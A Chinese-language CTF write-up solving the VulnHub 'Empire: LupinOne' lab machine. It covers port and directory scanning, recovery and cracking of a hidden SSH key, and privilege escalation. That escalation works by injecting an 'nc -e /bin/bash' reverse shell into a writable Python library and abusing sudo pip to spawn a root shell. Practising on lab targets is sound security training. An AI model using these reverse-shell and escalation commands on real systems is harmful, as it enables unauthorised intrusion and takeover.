



## 复盘*

## 靶机地址

[Empire: LupinOne ~ VulnHub](https://www.vulnhub.com/entry/empire-lupinone,750/)


## 信息收集

### nmap扫描

#### 主机探测

```
nmap -sn 192.168.23.0/24
```


#### 创建文件夹用来存放扫描结果

```
mkdir nmapscan
```


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.23.140 -oA ./nmapscan/ports
```


开放了：

- 22 tcp
- 80 http


#### 提取端口信息

```
ports=$(cat ./nmapscan/ports.nmap | grep open | awk -F'/' '{print $1}' |
paste -sd,)
echo $ports
```


#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80 192.168.23.140 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 8.4p1
- 80 http 
- Apache服务器


### 80 端口

#### 访问192.168.23.140




#### 查看源码


#### 推测图片存在隐写


#### 下载图片

```
wget http://192.168.23.140/image/arsene_lupin.jpg
```


#### 尝试steghide扫描

```
steghide info arsene_lupin.jpg
```


提示文件格式不支持


#### file查看文件

```
file arsene_lupin.jpg
```


png图片


#### 修改图片后缀名

```
mv arsene_lupin.jpg 1.png
```


#### binwalk扫描

```
binwalk 1.png
```


#### stegslove无信息


#### strings查看也无信息

```
strings 1.png
```


#### 扫描网站目录

```
dirsearch -u 192.168.23.140
```


得到：

- robots.txt


#### 访问robots.txt


访问

~myfiles


#### 查看源码


此外没信息了


#### 尝试gobuster继续爆破

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.23.140 -x php,txt
```


同样只有一个robots.txt


#### 分析url

推测目录前要加一个~

dirsearch添加  '~' 重新扫描目录

```
dirsearch -u 192.168.23.140 --prefixes '~'
```


得到

- ~secret


#### 访问~secret


```

Hello Friend, Im happy that you found my secret diretory, I created like this to share with you my create ssh private key file,
Its hided somewhere here, so that hackers dont find it and crack my passphrase with fasttrack.
I'm smart I know that.
Any problem let me know
Your best friend icex64

你好朋友，我很高兴你找到了我的秘密目录，我像这样创建为了与你分享我的创建 ssh 私钥文件，
它隐藏在这里的某个地方，这样黑客就不会发现它并使用 fasttrack 破解我的密码。
我很聪明，我知道这一点。
任何问题请告诉我
你最好的朋友 icex64
```

提示该了一个用户名icex64

同时该页面存在私钥文件


#### 查看源码


无内容


#### 抓包无结果


#### dirsearch扫描


无结果


由于提示，因此在这里，推测是个隐藏文件 

即文件名前有个' . ' 

且私钥文件，txt文件类型

#### dirsearch扫描


无结果


#### 利用wfuzz扫描

```
wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --hh 276 192.168.23.140/~secret/.FUZZ.txt
```


得到mysecret文件


#### 访问192.168.23.140/~secret/.mysecret.txt


#### cyberchef解密


base64解码乱码

但是是纯字母字母，感觉像base家族，没等号，挨个试

base58解密成功


### 22 端口

得到私钥文件

#### 尝试免密登录

```
ssh icex64@192.168.23.140 -i ./1
```


-i参数指定私钥文件，报错


#### 修改私钥权限

```
chmod 600 1
```


#### 重新登录

```
ssh icex64@192.168.23.140 -i ./1
```



需要密码


#### john爆破

```
ssh2john 1 > hash
```


```
john hash -w=/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt
```


得到密码

- P@55w0rd!


#### ssh连接

```
ssh icex64@192.168.23.140 -i ./1
```


## 提权


### 得到第一个flag

```
ls -al
cat user.txt
```


### 执行sudo -l


可以以arsene用户免密执行

 /usr/bin/python3.9 /home/arsene/heist.py

### 切换到arsenne目录

```
cd ..
ls
cd arsene
ls -al
```


heist.py我们不可以只有访问权限


### 查看heist.py

```
cat heist.py
```




可以看到导入webbrowser库

并调用open函数

即如果该库我们可以修改，那么就可尝试注入漏洞


### 查看webbrowser库

```
cd /lib
cd python3.9
```


```
ls -al webbrowser.py
```


可以看到我们可以修改该库


### open函数处添加弹shell脚本

```
os.system('nc -e /bin/bash 192.168.23.134 283')
```


### 本地监听

```
nc -lvp 283
```


### 执行

```
sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```


### python转换终端

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```


python失败，python3成功


### 返回家目录

```
cd /home
ls
cd arsene
ls -al
```


存在.secret

### 查看.secret

```
cat .secret
```


得到arsene密码


### 执行sudo -l

```
sudo -l
```


免密执行pip

（？那我要密码干啥）


### pip提权

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```


得到flag

```
cd /root
ls -al
cat root.txt
```

